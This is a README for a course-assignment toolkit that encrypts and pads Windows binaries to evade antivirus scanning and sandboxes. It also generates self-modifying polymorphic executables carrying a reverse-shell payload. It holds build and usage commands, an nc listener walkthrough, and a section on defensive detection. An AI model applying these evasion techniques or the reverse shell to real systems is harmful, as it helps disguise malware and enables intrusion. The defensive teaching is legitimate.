


# Hidden-Bytes

Hidden-Bytes is a command-line toolkit written in Go, built for the HiddenBytes assignment:

- **`evasion`** — encrypts a target binary with AES-256-GCM, pads the output to a requested size, and packages it into a self-extracting Windows `.exe` that waits for a configured delay before decrypting and launching the original program.
- **`polymorphic`** — generates a self-modifying Windows `.exe` that re-encrypts its payload with a fresh key and random padding on every run (changing its hash), then executes the embedded reverse shell payload.

> **Authorized use only.** These are offensive-security techniques intended for a controlled lab. Run them only inside the isolated Windows VM described in the subject, and only against files and hosts you own or are explicitly authorized to test.

---

## Contents

1. [Project overview](#1-project-overview)
2. [Subject and scope](#2-subject-and-scope)
3. [Requirements and setup](#3-requirements-and-setup)
4. [Tool 1 — Evasion](#4-tool-1--evasion)
5. [Tool 2 — Polymorphic](#5-tool-2--polymorphic)
6. [End-to-end lab walkthrough](#6-end-to-end-lab-walkthrough)
7. [Technical concepts](#7-technical-concepts)
8. [Defensive analysis](#8-defensive-analysis)
9. [Limitations](#9-limitations)
10. [Ethics and lab safety](#10-ethics-and-lab-safety)

---

## 1. Project overview

| Program | Purpose | Output |
|---|---|---|
| `evasion` | Encrypt a binary with AES-256-GCM, pad to a requested size, and package as a self-extracting runner with a configurable delay | A Windows `.exe` that waits, decrypts, and launches the payload |
| `polymorphic` | Generate a self-modifying binary that carries an encrypted payload (e.g. a reverse shell) | A Windows `.exe` that rewrites its own bytes on every run and executes the payload |

### What this project demonstrates

- AES-256-GCM authenticated encryption with a fresh random key per file.
- File-size manipulation: zero-padding inflates the output to bypass scanners that skip large files.
- Execution delay: the runner waits before decrypting, defeating sandbox analysis that times out.
- A self-extracting runner: one `.exe` that carries the encrypted payload, its key, and the decryption logic.
- **File-level polymorphism**: the binary re-encrypts with a new key and new random padding on every run, so its SHA-256 changes while its behaviour does not.
- A reverse shell payload for educational demonstration.
- How defenders can investigate and detect these techniques.

---

## 2. Subject and scope

| Subject / audit topic | This implementation | How to demonstrate |
|---|---|---|
| Encrypt an input file | AES-256-GCM with a fresh 32-byte random key | Encrypt, run the output, verify the payload executes |
| Modify final file size | Zero padding added after the stub | Compare input and output sizes |
| Requested size increase | `--add-size 101` adds exactly 101 MiB of padding | Check `stat` and the CLI's size report |
| Execution delay | Stored in metadata, enforced by the runner before decryption | Use `time ./evaded.exe` and observe the wait |
| Polymorphic variants | Each generation uses a fresh key, nonce, and random padding | Generate two files and compare hashes |
| Self-modification | Re-encrypts payload with new key + random padding, rewrites self | Hash before and after running |
| Reverse shell | `lab/reverse_shell_payload.py` connects to operator's address | Start `nc -lvnp 4444`, run the binary, type a command |
| Native Windows PE | Cross-compiled Go binary (real `MZ` PE header) | `file evaded.exe` or check first 2 bytes |
| Defender / VirusTotal | Measured in the VM | Scan and record the actual detection ratio |

---

## 3. Requirements and setup

### Prerequisites

- **Go 1.21 or newer** (for building and cross-compiling).
- A terminal: PowerShell on Windows, or a shell on Linux/macOS.
- For the subject demonstration: a Windows 10/11 virtual machine with network isolation.

### Repository layout

```text
hidden-bytes/
├── src/
│   ├── evasion/
│   │   ├── main.go           # CLI entry point
│   │   ├── encrypt.go        # AES-256-GCM encryption, runner compilation, assembly
│   │   └── runner.src        # self-extracting runner source (embedded, compiled at encryption time)
│   └── polymorphic/
│       ├── main.go           # CLI entry point
│       ├── generate.go       # encryption, stub compilation, assembly
│       └── stub.src          # self-modifying stub source (embedded, compiled at generation time)
├── lab/
│   ├── reverse_shell_payload.py
│   ├── mal_demo.ps1
│   ├── build_eicar_evaded.py
│   └── detect_positive_control.py
├── resources/
│   ├── evasion_walkthrough.html
│   ├── polymorphic_walkthrough.html
│   └── md/                   # subject.md, audit.md
├── go.mod
└── README.md
```

### Building

Both tools are built with standard `go build`:

```bash
# Build the evasion tool
go build -o evasion ./src/evasion/

# Build the polymorphic tool
go build -o polymorphic ./src/polymorphic/
```

Each tool embeds its runner/stub source code and cross-compiles it to a Windows `.exe` at encryption/generation time, so Go must be installed when you run the tools.

### Isolated lab configuration

Before any Windows demonstration, verify:

1. The VM uses **Host-Only** or **Internal Network** mode.
2. Shared folders, shared clipboard, and drag-and-drop are disabled.
3. A clean snapshot exists and can be restored.
4. Only owned, harmless test files are used.
5. Defender real-time protection is on with no path exclusions.

---

## 4. Tool 1 — Evasion

### 4.1 What it does

The evasion tool:

1. Reads a target binary.
2. Encrypts it with AES-256-GCM using a fresh random 32-byte key and 12-byte nonce.
3. Cross-compiles a Go runner stub to a Windows `.exe`.
4. Assembles the final file: stub + padding + encrypted payload + metadata trailer.

The output is a real Windows PE executable. When run on Windows it:

1. Reads itself from disk.
2. Finds the metadata trailer at the end of the file.
3. Waits for the configured delay.
4. Decrypts the payload using the key stored in the metadata.
5. Writes the original binary to a temporary directory.
6. Executes it.
7. Cleans up.

### 4.2 CLI reference

```
Evasion Program Usage:
  --encrypt <target-binary>    Encrypt the target binary.
  --output  <output-binary>    Specify the output file path.
  --add-size <size-in-mb>      Increase the binary size (e.g., 101 MB).
  --delay   <seconds>          Execution delay in seconds (default: 101).
```

### 4.3 Walkthrough

#### Step 1 — Build the tool

```bash
go build -o evasion ./src/evasion/
```

#### Step 2 — Create a harmless test file

```bash
printf 'Hello from Hidden-Bytes!\n' > sample.txt
wc -c sample.txt
# 25 sample.txt
```

#### Step 3 — Encrypt with 1 MB padding and a 5-second delay

```bash
./evasion --encrypt sample.txt --output evaded.exe --add-size 1 --delay 5
```

Expected output:

```text
[INFO] Compiling runner stub for windows/amd64 ...
[OK] Encryption is successful! Encrypted binary saved as "evaded.exe".
[INFO] Input:       sample.txt
[INFO] Runner:      evaded.exe
[INFO] Added size:  1 MB
[INFO] Delay:       5 second(s)
[INFO] Runner size: 4233428 bytes (4.0 MB)
```

#### Step 4 — Verify the output is a real PE

```bash
file evaded.exe
# evaded.exe: PE32+ executable (console) x86-64, for MS Windows

# Or check the first two bytes:
head -c 2 evaded.exe | xxd
# 00000000: 4d5a  MZ
```

#### Step 5 — Verify the payload is not visible in the artifact

```bash
grep -c "Hello" evaded.exe || echo "plaintext NOT found — it is encrypted"
```

#### Step 6 — Run it on Windows (the audit demonstration)

```text
> evaded.exe
[INFO] Hidden-Bytes self-extracting runner.
[INFO] Execution delayed by 5 seconds...
[INFO] Binary decrypted successfully.
[INFO] Target program executed.
Hello from Hidden-Bytes!
```

#### Step 7 — Full audit example (101 MB, 101 seconds)

```bash
./evasion --encrypt simple_program.exe --output evaded_program.exe --add-size 101 --delay 101
```

```text
[INFO] Compiling runner stub for windows/amd64 ...
[OK] Encryption is successful! Encrypted binary saved as "evaded_program.exe".
[INFO] Input:       simple_program.exe
[INFO] Runner:      evaded_program.exe
[INFO] Added size:  101 MB
[INFO] Delay:       101 second(s)
[INFO] Runner size: 109101255 bytes (104.0 MB)
```

The file is ~104 MB: the runner stub (~3 MB) + 101 MB padding + encrypted payload + trailer.

### 4.4 Output file layout

The evasion tool produces a single file with this structure:

```text
┌──────────────────────────────────────────────────────────┐
│  Runner stub (.exe)        ~3 MB                         │
│  Cross-compiled Go binary that reads itself and          │
│  finds the trailer below                                 │
├──────────────────────────────────────────────────────────┤
│  Zero padding              --add-size MB                 │
│  Inflates the file to bypass scanners that skip          │
│  large files                                             │
├──────────────────────────────────────────────────────────┤
│  AES-256-GCM ciphertext    variable                      │
│  Encrypted payload bytes + 16-byte auth tag              │
├──────────────────────────────────────────────────────────┤
│  JSON metadata             variable                      │
│  key (base64), nonce (base64), delay, original_name,     │
│  original_size, ciphertext_len                           │
├──────────────────────────────────────────────────────────┤
│  Metadata length           4 bytes, big-endian uint32    │
├──────────────────────────────────────────────────────────┤
│  Magic: "HBX1"             4 bytes                       │
│  Also used as AES-GCM associated data                    │
└──────────────────────────────────────────────────────────┘
```

The runner reads **backwards from the end**: it finds `HBX1`, reads the metadata length, parses the JSON metadata, then extracts the ciphertext at the known offset. The key and nonce are in the metadata, so the file is completely self-contained.

### 4.5 How the runner enforces the delay

The delay is stored in the metadata and enforced by the runner **before** decryption begins. The tool does not need to be running.

```text
./evasion --encrypt target.exe --output evaded.exe --delay 101
        │
        ├─ encrypt payload  →  AES-256-GCM ciphertext
        ├─ compile runner   →  windows/amd64 .exe stub
        ├─ assemble         →  stub + padding + ciphertext + trailer
        └─ store delay      →  in JSON metadata

> evaded.exe
[INFO] Hidden-Bytes self-extracting runner.
[INFO] Execution delayed by 101 seconds...     ← the artifact waits
[INFO] Binary decrypted successfully.
[INFO] Target program executed.                ← only now is the payload run
```

A sandbox that times out at 60 seconds never sees the payload execute. This is exactly why modern defence uses **behavioural monitoring**, not just sandbox analysis.

### 4.6 Encryption flow



---

## 5. Tool 2 — Polymorphic

### 5.1 What it does

The polymorphic tool generates a self-modifying Windows `.exe` that:

1. **Decrypts** the embedded payload using AES-256-GCM.
2. **Self-modifies**: re-encrypts the payload with a fresh random key and nonce, generates new random padding (1–64 KB), and rewrites itself on disk with the new data.
3. **Executes** the payload (Python scripts via `python`, binaries directly).

Every run produces a **completely different file hash** while the behaviour stays identical: different key → different ciphertext → different padding → different SHA-256, same payload execution.

### 5.2 CLI reference

```
Polymorphic Program Usage:
  --generate <output-binary>   Generate a polymorphic binary.
  --payload  <payload-file>    Embed the reverse shell payload.
```

### 5.3 Walkthrough

#### Step 1 — Build the tool

```bash
go build -o polymorphic ./src/polymorphic/
```

#### Step 2 — Generate with a test payload

```bash
echo 'print("Hello from payload!")' > message.py

./polymorphic --generate poly.exe --payload message.py
```

Expected output:

```text
[INFO] Compiling polymorphic stub for windows/amd64 ...
[OK] Polymorphic binary generated successfully as "poly.exe".
[INFO] Payload:    message.py (28 bytes)
[INFO] Output:     poly.exe (3258649 bytes)
[INFO] Each run rewrites the binary with a fresh key and random padding, changing its hash.
```

#### Step 3 — Observe the changing hash (on Windows or any platform)

```bash
sha256sum poly.exe
# a1b2c3d4... poly.exe

# Run it (on Windows):
> poly.exe
[INFO] Polymorphic signature updated successfully.
Hello from payload!

sha256sum poly.exe
# e5f6a7b8... poly.exe  ← DIFFERENT hash

> poly.exe
[INFO] Polymorphic signature updated successfully.
Hello from payload!

sha256sum poly.exe
# 9c0d1e2f... poly.exe  ← DIFFERENT again, same output
```

Three runs, three distinct hashes, identical behaviour.

#### Step 4 — Generate two variants and compare

```bash
./polymorphic --generate variant_a.exe --payload message.py
./polymorphic --generate variant_b.exe --payload message.py
sha256sum variant_a.exe variant_b.exe
# Different hashes — each uses a fresh key, nonce, and random padding
```

### 5.4 The reverse shell payload

`lab/reverse_shell_payload.py` is the payload for the subject's demonstration. It connects back to a listener the operator controls.

```bash
# Terminal 1 — start the listener
nc -lvnp 4444

# Terminal 2 — generate and run
./polymorphic --generate polymorphic.exe --payload lab/reverse_shell_payload.py

# On Windows:
> polymorphic.exe
[INFO] Polymorphic signature updated successfully.
[INFO] Reverse shell initialized. Attempting connection to attacker...
```

The listener shows:

```text
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50568
```

Type a command in the listener terminal and it runs in the remote shell.

> **In the Windows VM**, use the VM's host-only address instead of `127.0.0.1`. Keep the network adapter in **Host-Only** mode. Start the listener first, then run the binary.

### 5.5 Output file layout

```text
┌──────────────────────────────────────────────────────────┐
│  Stub (.exe)               ~3 MB  [fixed across runs]    │
│  Compiled Go binary with self-modification logic         │
├──────────────────────────────────────────────────────────┤
│  Random padding            1–64 KB [changes every run]   │
│  Random length and content                               │
├──────────────────────────────────────────────────────────┤
│  AES-256-GCM ciphertext    variable [changes every run]  │
│  Re-encrypted with fresh key each run                    │
├──────────────────────────────────────────────────────────┤
│  JSON metadata             variable [changes every run]  │
│  New key, nonce, stub_size                               │
├──────────────────────────────────────────────────────────┤
│  Metadata length + "HBX1"  8 bytes                       │
└──────────────────────────────────────────────────────────┘
```

On each run, **everything below the stub changes**: new random padding (different length), new ciphertext (new key), new metadata (new key/nonce). Only the stub bytes stay the same. The result is a completely different file hash.

### 5.6 Self-modification on Windows

A running `.exe` on Windows cannot be overwritten in place (the file is locked). The stub handles this by:

1. Renaming itself from `poly.exe` to `poly.exe.old` (renaming a running .exe is allowed on Windows).
2. Writing the new version to `poly.exe`.
3. The `.old` file is released when the process exits.

On Linux, overwriting in place works directly.

### 5.7 Polymorphic flow



### 5.8 What "polymorphism" means here

The demonstration shows **binary-level polymorphism**: every region of the file below the stub changes on every run — new ciphertext, new metadata, new random padding of a different length. The result is a completely different SHA-256 hash while the payload execution is identical.

This is the property a defender looks for when comparing samples of the same malware family: many different hashes, one behaviour. A fingerprint-only scanner that checks hashes against a blocklist will miss it every time, which is why **behavioural detection** is essential.

---

## 6. End-to-end lab walkthrough

### Exercise A — Evasion: encryption, padding, delay

1. Build the evasion tool: `go build -o evasion ./src/evasion/`
2. Create a test file: `echo "Hello, World!" > simple_program.exe`
3. Encrypt with the audit parameters:
   ```bash
   ./evasion --encrypt simple_program.exe --output evaded_program.exe --add-size 101 --delay 101
   ```
4. Record the output size (~104 MB: 3 MB stub + 101 MB padding + payload + trailer).
5. On Windows, run `evaded_program.exe` and time it — it waits 101 seconds then prints the output.
6. Verify the plaintext does not appear in the artifact: `grep -c "Hello" evaded_program.exe`
7. Scan with Windows Defender and record the verdict.
8. Upload to VirusTotal and record the detection ratio.

### Exercise B — Polymorphism and self-modification

1. Build the polymorphic tool: `go build -o polymorphic ./src/polymorphic/`
2. Create a payload: `echo 'print("hello from the payload")' > message.py`
3. Generate: `./polymorphic --generate poly.exe --payload message.py`
4. Record its SHA-256 hash.
5. Run it on Windows and record its output.
6. Record the hash again — it should be different.
7. Run again, record hash — different again, same output.

### Exercise C — Reverse shell in the isolated lab

1. Confirm the VM is in **Host-Only** mode.
2. Start a netcat listener: `nc -lvnp 4444`
3. Generate: `./polymorphic --generate polymorphic.exe --payload lab/reverse_shell_payload.py`
4. Run on Windows: `polymorphic.exe`
5. Confirm the listener shows a connection.
6. Type `whoami` and `hostname` in the listener.
7. Type `exit` to close.
8. Record the hash before and after to show self-modification.

### Exercise D — Defensive discussion

For each exercise, document:

- What changed in the file?
- Which parts are encrypted, padding, or metadata?
- What would an endpoint or sandbox see?
- What Defender / VirusTotal result was actually measured?

---

## 7. Technical concepts

### AES-256-GCM

AES is a symmetric cipher. "256" is the key size in bits (32 bytes). GCM (Galois/Counter Mode) is an authenticated-encryption mode: it encrypts the plaintext **and** produces a 16-byte authentication tag. A wrong key or modified ciphertext fails authentication — no silent corruption.

Go's `crypto/aes` and `crypto/cipher` packages provide the implementation. The `HBX1` magic bytes are fed as **associated data** (AAD): they are authenticated but not encrypted, so editing them makes decryption fail.

### Random key generation

Each encryption generates a fresh 32-byte key using `crypto/rand.Read` (the OS CSPRNG). The key is never derived from a passphrase. It is stored in the metadata trailer alongside the ciphertext, so the file is self-contained.

### Cross-compilation

Both tools embed their runner/stub Go source as a `.src` file and cross-compile it at encryption/generation time:

```go
cmd.Env = append(os.Environ(), "GOOS=windows", "GOARCH=amd64", "CGO_ENABLED=0")
```

The result is a statically linked Windows PE executable with no external dependencies. The `-ldflags "-s -w"` flags strip debug info to reduce size.

### File size and padding

The `--add-size` flag adds zero-byte padding between the runner stub and the encrypted payload. Many antivirus scanners and VirusTotal vendors skip files over a certain size threshold, making this a simple but effective evasion technique. The padding has no security value — it's purely for size inflation.

### SHA-256 and polymorphism

SHA-256 maps input bytes to a 256-bit digest. Changing even one byte produces a completely different hash. The polymorphic stub exploits this: by re-encrypting with a fresh key and adding random-length padding, every byte below the stub changes, producing a new SHA-256 on every run.

### Reverse shell

A reverse shell has the target initiate an outbound TCP connection and feed a command interpreter's I/O over it. `lab/reverse_shell_payload.py` implements this with cross-platform pipe relay (works on both Windows `cmd.exe` and Linux `/bin/sh`). The target address is always operator-supplied via `--host` and `--port`, defaulting to `127.0.0.1`.

---

## 8. Defensive analysis

These techniques illustrate patterns that defenders can investigate:

| Pattern | What to look for |
|---|---|
| **Large file / unusual size** | A file whose size is suspiciously large relative to its code sections. Many scanners skip files over a threshold. |
| **High entropy** | Encrypted data has high entropy. Combined with an unusual file structure, this is a signal. |
| **Execution delay** | A process that sits idle for a long time before spawning a child. Extend sandbox observation windows beyond 60 seconds. |
| **Child process after idle** | The runner writes a file to a temp directory and executes it. EDR process-creation telemetry catches this. |
| **Temp directory churn** | Create-write-execute-delete in a short window is visible to filesystem monitoring. |
| **Changing hashes** | The same behaviour from files with different hashes → fingerprint detection is useless; use behavioural detection. |
| **Unexpected network activity** | Outbound connections from applications that shouldn't make them, especially combined with a command interpreter child process. |
| **PE with appended data** | A Windows executable with significant data appended after the PE sections is worth investigating. |

**Key defensive insight**: the reverse shell's network connection is visible regardless of how the file looks on disk. Encrypting, padding, and randomising the binary changes nothing about the outbound connection. Egress filtering and network telemetry catch what file-based detection cannot.

Recommended controls: application allowlisting, least privilege, egress filtering, EDR with behavioural detection, extended sandbox timeouts, protected logging, rapid patching, and isolated analysis environments.

---

## 9. Limitations

1. **Detection results are measured, not engineered.** Report the Defender and VirusTotal numbers you actually observe.
2. **The runner launches the payload as a child process.** There is no process hollowing, injection, or concealment.
3. **The reverse shell is a lab payload.** One connection, one address, no persistence, no privilege escalation.
4. **Self-modification needs a writable file.** If the binary is read-only, the hash stops changing (the payload still runs).
5. **Key is in the metadata.** Anyone who can read the file can recover the payload. Protect the artifact with access controls.
6. **Go toolchain required at build time.** The tools cross-compile the runner/stub at encryption/generation time, so Go must be installed.
7. **Manual isolation verification.** Code cannot prove the VM is isolated — the auditor must check hypervisor settings.
8. **Audit results must be measured.** Do not claim a detection percentage without recorded evidence.

---

## 10. Ethics and lab safety

Binary encryption, file mutation, self-modification, and reverse shells are dual-use techniques. The skills learned here are the same ones used by red team professionals, malware analysts, security researchers, and antivirus developers.

**You are responsible for ensuring all testing is conducted within a secure, isolated environment.**

Do not:
- Disable endpoint protection outside the lab.
- Deploy these payloads on systems you do not control.
- Upload confidential third-party binaries to public scanning services.
- Point the reverse shell at a machine you do not own.

Report findings honestly and preserve evidence for another reviewer to reproduce the results. Keep snapshots, use harmless payloads, restrict the reverse shell to a lab address you control, and restore the VM after the exercise.

> **Disclaimer**: This project is for educational purposes only. Unauthorized use of these techniques is prohibited and may be illegal.
